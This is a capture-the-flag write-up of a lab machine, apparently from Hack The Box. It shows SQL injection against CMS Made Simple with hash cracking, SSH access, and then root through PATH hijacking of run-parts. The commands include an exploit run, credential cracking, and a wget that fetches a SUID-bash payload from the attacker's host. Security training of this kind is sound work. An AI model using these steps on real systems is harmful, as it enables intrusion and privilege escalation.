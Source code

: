 # Writeup

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 11:25 EDT
Nmap scan report for 10.129.95.203
Host is up (0.14s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Port 80 --> SQL Injection

Port 80 just hosts this image:

<figure><img src="../../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

This thing says that it is banning IPs that send too many requests, so a directory scan might be counterproductive. Instead, based on the text, going to `/writeup` works.&#x20;

<figure><img src="../../../.gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals that this is using CMS Made Simple:

<figure><img src="../../../.gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

There are loads of exploits for this software.

```
$ searchsploit made simple
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Cod | php/remote/46627.rb
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting    | php/webapps/26298.txt
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion    | php/webapps/26217.html
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting | php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection     | php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vu | php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities          | php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                | php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection       | php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File  | php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion               | php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure              | php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site  | php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities           | php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery           | php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclus | php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Re | php/webapps/34068.html
CMS Made Simple 2.1.6 - 'cntnt01detailtemplate' Server-Sid | php/webapps/48944.py
CMS Made Simple 2.1.6 - Multiple Vulnerabilities           | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution              | php/webapps/44192.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authentica | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Uplo | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting ( | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)               | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via S | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execut | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execut | php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Pois | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                   | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File  | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary  | php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) A | php/webapps/46546.py
----------------------------------------------------------- ---------------------------------
```

I tried a few of them, and only the SQL Injection one worked.&#x20;

```
$ python3 46635.py -u http://10.129.95.203/writeup --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

With this, we can `ssh` in as `jkr`.&#x20;

<figure><img src="../../../.gitbook/assets/image (565).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### PATH Hijacking

I ran a LinPEAS scan to enumerate for me, which found that we are part of the `staff` group that can write to certain directories:

```
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
Group staff:
/usr/local/bin
/usr/local/games
/usr/local/sbin
<TRUNCATED>
```

Having write access to these directories means that we can do PATH hijacking by creating an executable in those files with the same name as processes run by `root`. As such, I downloaded `pspy64` onto the machine to see if `root` was running any processes without full paths.&#x20;

When run, I saw these processes that were run:

```
2023/05/06 05:02:16 CMD: UID=0    PID=12903  | run-parts --lsbsysinit /etc/update-motd.d 
2023/05/06 05:02:16 CMD: UID=0    PID=12904  | /bin/sh /etc/update-motd.d/10-uname
```

The `run-parts` command did not have a full path, meaning that we can exploit this. We can create a basic `bash` script that makes `/bin/bash` an SUID binary. Then we can download it into the `/usr/local/bin` directory:

```
jkr@writeup:/usr/local/bin$ wget 10.10.14.13:8000/run-parts
--2023-05-06 05:03:51--  http://10.10.14.13:8000/run-parts
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32 [application/octet-stream]
Saving to: ‘run-parts’

run-parts               100%[============================>]      32  --.-KB/s    in 0s      

2023-05-06 05:03:51 (6.62 MB/s) - ‘run-parts’ saved [32/32]

jkr@writeup:/usr/local/bin$ chmod +x run-parts
```

Afterwards, we just need to `ssh` back into the machine to execute it and get a `root` shell.

<figure><img src="../../../.gitbook/assets/image (588) (1).png" alt=""><figcaption></figcaption></figure>
